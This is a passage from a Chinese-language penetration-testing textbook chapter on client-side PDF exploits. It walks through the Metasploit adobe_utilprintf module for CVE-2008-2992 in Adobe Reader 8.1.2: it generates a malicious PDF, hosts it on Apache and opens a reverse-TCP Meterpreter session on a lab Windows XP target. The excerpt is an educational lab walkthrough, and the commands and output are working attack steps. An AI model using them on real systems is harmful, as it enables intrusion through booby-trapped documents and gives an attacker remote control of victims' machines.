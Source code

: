 现在，让我们来看一些其他的客户端软件，它们也可能被利用来在目标系统上执行命令。

### PDF 漏洞利用

可移植文档格式（PDF）软件也可以被利用。如果用户被诱导在易受攻击的查看器中打开恶意 PDF，程序就可能被利用。

Windows 系统中最流行的 PDF 查看器是 Adobe Reader。像浏览器一样，Adobe Reader 的历史上充满了安全漏洞。同样像浏览器，即使有补丁管理流程，定期更新操作系统时，PDF 软件经常被忽视，仍然停留在较旧且易受攻击的版本。

#### 利用 PDF 漏洞

我们的 Windows XP 目标系统安装了过时版本的 Adobe Reader 8.1.2，存在 CVE-2008-2992 漏洞，这是一个基于栈的缓冲区溢出漏洞。对应的 Metasploit 模块是 *exploit/windows/fileformat/adobe_utilprintf*。

这个模块的选项与我们之前看到的有些不同，如在示例 10-10 中所示。这是一个客户端攻击，因此没有`RHOST`选项，但与我们的浏览器攻击不同，这里也没有`SRVHOST`或`SRVPORT`选项。这个模块仅仅是生成一个恶意 PDF；托管它并交付以及设置有效载荷处理程序则由我们来完成。当然，我们具备完成这两项任务所需的所有技能。

示例 10-10. 一个 Metasploit PDF 漏洞

```
msf > **use exploit/windows/fileformat/adobe_utilprintf**
msf  exploit(adobe_utilprintf) > **show options**

Module options (exploit/windows/fileformat/adobe_utilprintf):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
  ❶FILENAME  msf.pdf          yes       The file name.

Exploit target:

   Id  Name
   --  ----
  ❷0   Adobe Reader v8.1.2 (Windows XP SP3 English)

msf  exploit(adobe_utilprintf) > **exploit**

[*] Creating 'msf.pdf' file...
[+] msf.pdf stored at /root/.msf4/local/msf.pdf ❸
```

如你所见，PDF 漏洞的唯一选项是要生成的恶意文件的名称❶。我们可以保留默认值，*msf.pdf*。在这个例子中，我们将让 Metasploit 使用默认的有效载荷，*windows/meterpreter/reverse_tcp*，监听端口 4444。当我们输入**`exploit`**时，Metasploit 会生成一个 PDF，利用 Windows XP SP3 英文版中 Adobe Reader 的易受攻击版本的漏洞❷。这个恶意 PDF 被保存在 */root/.msf4/local/msf.pdf* ❸。

现在，我们需要服务这个 PDF 并为有效载荷设置处理程序，如在示例 10-11 中所示。

示例 10-11. 服务恶意 PDF 并使用处理程序

```
msf  exploit(adobe_utilprintf) > **cp /root/.msf4/local/msf.pdf /var/www**
[*] exec: cp /root/.msf4/local/msf.pdf /var/www

msf  exploit(adobe_utilprintf) > **service apache2 start**
[*] exec service apache2 start

Starting web server: apache2.

msf  exploit(adobe_utilprintf) > **use multi/handler**❶
msf  exploit(handler) > **set payload windows/meterpreter/reverse_tcp**
payload => windows/meterpreter/reverse_tcp
msf  exploit(handler) > **set LHOST 192.168.20.9**
lhost => 192.168.20.9
msf  exploit(handler) > **exploit**

[*] Started reverse handler on 192.168.20.9:4444
[*] Sending stage (752128 bytes) to 192.168.20.10
[*] Meterpreter session 2 opened (192.168.20.9:4444 -> 192.168.20.10:1422) at
```